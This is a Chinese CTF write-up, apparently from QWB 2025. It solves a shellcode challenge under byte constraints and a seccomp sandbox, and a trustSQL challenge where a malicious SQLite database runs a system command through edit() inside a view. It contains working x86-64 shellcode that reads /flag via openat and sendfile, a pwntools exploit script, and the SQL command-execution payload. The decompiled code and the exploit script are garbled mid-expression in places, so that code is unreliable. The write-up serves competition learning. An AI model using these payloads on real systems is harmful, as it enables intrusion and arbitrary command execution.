

它在执行之前会把可写权限关闭，并且满足一定的条件下会随机打乱输入的 `shellcode`。

全部算法如下

```
```


## 反编译代码

```c
int __fastcall sub_56F17A9626C0(void *src, size_t n)

{

    _BYTE *v2; // rax

    size_t v3; // rbx

    _BYTE *v4; // r14

    char v5; // al

    __int64 v6; // rcx

    int b1; // esi

    unsigned __int16 b2; // cx

    int b3; // eax

    unsigned int v10; // r14d

    char v11; // bl

    char i; // bp

    unsigned int *v13; // rcx

    unsigned int v14; // eax

    unsigned int v15; // edx

    bool v16; // cf

    unsigned int v17; // r14d

    __int64 v18; // rbx

    size_t v19; // r13

    unsigned int v21; // [rsp+Ch] [rbp-8Ch] BYREF

    void *v22; // [rsp+10h] [rbp-88h] BYREF

    int v23; // [rsp+18h] [rbp-80h]

    _DWORD v24[2]; // [rsp+1Ch] [rbp-7Ch] BYREF

    _BYTE v25[4]; // [rsp+24h] [rbp-74h]

    int v26; // [rsp+28h] [rbp-70h]

    int v27; // [rsp+2Ch] [rbp-6Ch]

    char v28; // [rsp+30h] [rbp-68h]

    int v29; // [rsp+34h] [rbp-64h]

    int v30; // [rsp+38h] [rbp-60h]

    char v31; // [rsp+3Ch] [rbp-5Ch]

    size_t v32; // [rsp+40h] [rbp-58h]

    _BYTE *v33; // [rsp+48h] [rbp-50h]

    size_t v34; // [rsp+50h] [rbp-48h]

    __int64 v35; // [rsp+58h] [rbp-40h]

    __int64 v36; // [rsp+60h] [rbp-38h]

    v22 = 0;

    getrandom(&v22, 4, 0);

    v22 = (void *)((_QWORD)v22 = 5 )

                break;

            *v13 = 0;

            v16 = v10 = 5 )

            goto LABEL_15;

        LABEL_20:

        *((_BYTE *)v13 + 8) = 0;

        i = v25[0];

        v11 = v28;

        if ( (v25[0] & 1) != 0 )

            goto LABEL_9;

        LABEL_21:

        if ( (v11 & 1) != 0 )

            goto LABEL_9;

        if ( v31 != 1 || v14 
```

## Shellcode 游戏校验

`shellcode` 每连续三个字节为一组进行如下游戏校验：

### 游戏背景

- 游戏有 3 个玩家和一个 boss，三个玩家的血量分别为 `shellcode` 字节值 + 255。
- boss 的血量为三个玩家血量之和。
- 所有人的攻击力为 5，没有防御属性，即一次攻击会令对手损失 5 点生命值。
- 血量 每个回合中执行如下操作：
  - 随机选择一个存活状态的玩家与 boss 进行战斗。
  - 玩家先攻击，令 Boss 损失 5 点生命值。
  - Boss 攻击选定玩家，损失 5 点生命值。
- 任意时间内，有一方完全死亡时游戏结束，完全死亡的一方游戏失败。

把游戏抽象为数学模型，不妨设三个玩家的生命值为 `5x + a`、`5y + b`、`5z + c`，Boss 血量根据要求为 `5(x + y + z) + (a + b + c) | (a,b,c`。

说白了，这游戏就不太可能可以赢，因为一个 `5x + a` 血量的人物只能给 Boss 造成 `5x` 的伤害，但是好在玩家先手，如果前面两个人（可以证明，游戏输赢和攻击顺序无关）死亡的情况下，剩下最后一个人，双方血量分别为 `5z + c` 和 `5z + a + b + c`，经过 `z - 1` 个回合之后，血量变成 `5 + z` 和 `5 + a + b + c`，最后一刻，必须给 Boss 致命一击，即攻击过后 `a + b + c`，不然它再打过来玩家必输。

这里的 `a`、`b`、`c` 自然就是 `byte % 5` 的值，所以 `shellcode` 必须满足下面的要求。

```python
for i in range(len(shellcode)-2):
    s = 0
    for j in range(3):
        s += shellcode[i+j] % 5
    if s >= 5:
        print("error")
        quit()
```

只要任意三个连续的字节 `%5` 相加的值大于等于 5，这个 `shellcode` 就是不合法的。

所以尽量要选择权值（`%5` 得到的值）尽可能低的指令去输入，一些比较好用的指令：

```asm
jmp $+2

; EB 00

; 0  0

mov ecx, $imm

; B9 ?? ?? ?? ??

; 0  ?? ?? ?? ??
```

其余一些 `mov` 指令巨难用，一不小心就会超过，所以推荐用 `xchg r1,r2`，它的优点就是，如果正着来权值过大可以反过来，即写 `xchg r2,r1`，指令效果完全等价。



## 沙箱与利用

执行 `shellcode` 之前，它把几乎所有寄存器都清零了，也就是找不到一个可写的地址。

在此之前，也先看看沙箱



这里我选择是直接 patch `main` 函数，直接执行 `sandbox` 函数，得到的沙箱结果。

这个沙箱很简单，直接 `openat + sendfile` 即可，但是可写内存没有，因此我选择了 `mmap` 去分配内存，然后将栈定向到这块内存中去（虽然没用到），这块内存可以用于去写 `/flag` 字符串。

这个题目在执行 `shellcode` 之后还关闭了标准输入，导致我们没有办法重写 `shellcode`，只能按照它的要求和规则去书写。

下面是我写的 `shellcode`

```asm
mov ecx,9
mov eax,ecx
mov edi,0
mov esi,0xa000
mov edx,7
mov ecx,0x22
mov r10d,ecx
syscall
; openat

add rax, 0x5000

mov rbx,rax
jmp $+2
xchg rbx,rbp
mov rbx,rax
xchg rbx,rsp
sub rax,0x5000

mov rbx,rax

; write /flag
mov ecx,'/'
mov [rbx],cl
jmp $+2
inc rbx

mov ecx,'f'
mov [rbx],cl
jmp $+2
inc rbx

mov ecx,'l'
mov [rbx],cl
jmp $+2
inc rbx

mov ecx,'a'
mov [rbx],cl
jmp $+2
inc rbx

mov ecx,'g'
mov [rbx],cl
jmp $+2
inc rbx

mov ecx, 0
mov [rbx],cl
jmp $+2
inc rbx
jmp $+2

mov rbx,rax
jmp $+2
xchg rsi,rbx
jmp $+2
mov ecx,0
jmp $+2
mov edi,ecx
jmp $+2
mov ecx,0
jmp $+2
mov edx,ecx
jmp $+2
mov ecx,1
jmp $+2
mov edi,ecx
jmp $+2
mov ecx,257
jmp $+2
mov eax,ecx
jmp $+2
syscall

mov ecx,0

jmp $+2
mov esi,ecx
jmp $+2
mov ecx,1
jmp $+2
mov edi,ecx
jmp $+2
mov ecx,0x30
mov r10d,ecx

mov ecx,40
mov eax,ecx
mov ecx,0
mov edx,ecx
syscall
;sendfile

shellcode满足要求之后直接写 exp 脚本，这里省略了爆破密码的步骤。
```

## Exp 脚本

`shellcode` 满足要求之后直接写 `exp` 脚本，这里省略了爆破密码的步骤。

```python
from pwn import *

from m import find_k_b_from_sequence

context.log_level = 'debug'

context.arch = 'amd64'

import os

import sys

from pwn import *

# from z3 import *

def ror64(value, shift, bits=64):

    """64位循环右移 - rol64的逆操作"""

    shift %= bits

    return ((value >> shift) | (value > (bits - shift))) & ((1 > 1) ^ ((v6 ^ (v6 >> 1)) >> 2) ^ ((v6 ^ (v6 >> 1) ^ ((v6 ^ (v6 >> 1)) >> 2)) >> 4) ^ (

                (v6 ^ (v6 >> 1) ^ ((v6 ^ (v6 >> 1)) >> 2) ^ ((v6 ^ (v6 >> 1) ^ ((v6 ^ (v6 >> 1)) >> 2)) >> 4)) >> 8) ^ (

                     (v6 ^ (v6 >> 1) ^ ((v6 ^ (v6 >> 1)) >> 2) ^ ((v6 ^ (v6 >> 1) ^ ((v6 ^ (v6 >> 1)) >> 2)) >> 4) ^ ((

                                                                                                                                  v6 ^ (

                                                                                                                                      v6 >> 1) ^ (

                                                                                                                                              (

                                                                                                                                                          v6 ^ (

                                                                                                                                                              v6 >> 1)) >> 2) ^ (

                                                                                                                                              (

                                                                                                                                                          v6 ^ (

                                                                                                                                                              v6 >> 1) ^ (

                                                                                                                                                                      (

                                                                                                                                                                                  v6 ^ (

                                                                                                                                                                                      v6 >> 1)) >> 2)) >> 4)) >> 8)) >> 16)

    v7 = v7 & 0xFFFFFFFFFFFFFFFF

    v7h = v7 >> 32

    v8 = rol64(v7 ^ v7h, 7)

    return v8

def inverse_xor_shift(y, k):

    """逆异或变换：从 y 恢复 x，满足 y = x ^ (x >> k)"""

    x = y

    shift = k

    while shift > shift)

        shift *= 2

    return x & 0xFFFFFFFFFFFFFFFF

def inverse_mix(v8):

    """mix 函数的逆向算法"""

    # 步骤1: 循环右移7位得到 u

    u = ror64(v8, 7)

    # 步骤2: 从 u 恢复 v7

    u_high = (u >> 32) & 0xFFFFFFFF

    u_low = u & 0xFFFFFFFF

    v7_high = u_high

    v7_low = u_low ^ u_high

    v7 = (v7_high 
```

最终也是直接拿到 `flag`。



## 系统调用限制

这道题只能 patch 沙箱的配置文件，一共 10 个 ban 位，`openat` 加白了，原生 `orw` 天然 ban 位，主要禁止的地方是读取文件，以下系统调用都能够读取文件。

- `mmap`
- `read`
- `readv`
- `pread64`
- `preadv`
- `preadv2`
- `splice`
- `sendfie`
- `io_uring`
- `io_setup`

总的来说，这题的质量还是非常高的，虽然比赛被折磨的很难受吧）

3. RW
4. TrustSQL

## 题目文档

> 题目名称：trustSQL
>
> 旗帜名称：TSTSQ
>
> 题目描述：附件中给出了一个Ubuntu虚拟机，该虚拟机与台上靶机内的虚拟机环境完全相同，仅有系统密码不同。请挖掘并利用 `/home/qwb/sqlite3` 中的漏洞，构造一个恶意的数据库文件（假设用户完全信任并加载该数据库文件），实现用户在虚拟机中利用 `sqlite3` 打开该数据库文件，并执行特定的查询后，能自动弹出系统计算器。上台演示的时候注意关闭 `exp` 的调试信息。
>
> 附件信息： 附件中的虚拟机与台上靶机内的虚拟机环境完全相同，仅有系统密码不同。附件中虚拟机系统用户名为qwb，密码为admin。
>
> 台上拓扑：交换机同时连接选手攻击机和靶机。靶机中使用vmware（最新版）开启附件中提供的虚拟机环境（操作系统Ubuntu，仅系统密码和附件中的虚拟机不同），该虚拟机已在 `/home/qwb/sqlite3` 正确安装 `sqlite3`。
>
> 展示目标：选手携带自己的攻击机上台，将可以完成漏洞利用的恶意数据库文件上传到自己的HTTP服务器。操作员将在靶机的Ubuntu虚拟机中，下载并利用 `sqlite3` 加载选手HTTP服务器上的恶意数据库文件（`/home/qwb/sqlite3 malicious.db`），然后在 `sqlite3` 中依次执行特定的查询命令（`PRAGMA trusted_schema = ON; select users from qwbDB;`）。在加载数据库并执行特定查询命令后的规定时间内，自动在Ubuntu虚拟机中弹出系统计算器。


题目已经帮忙开启了 `PRAGMA trusted_schema = ON`，直接用 `sqlite3` 的 `edit` 函数，直接执行计算器命令即可。

如果任意执行 SQL 命令，很容易想到

```
select edit('gnome-calculator;','gnome-calculator;');
```



但是因为它要求只能执行特定查询，所以创建一个视图去触发最终的 payload。



### 参考文献

- [1]：[//github.com/TLD1027/QWB2025-somebox/" target="_blank" rel="noopener noreferrer nofollow"](https://github.com/TLD1027/QWB2025-somebox/:rel="nofollow noopener" href="https)

### 后记

其余的题目还在复现中，希望有精力复现吧。。
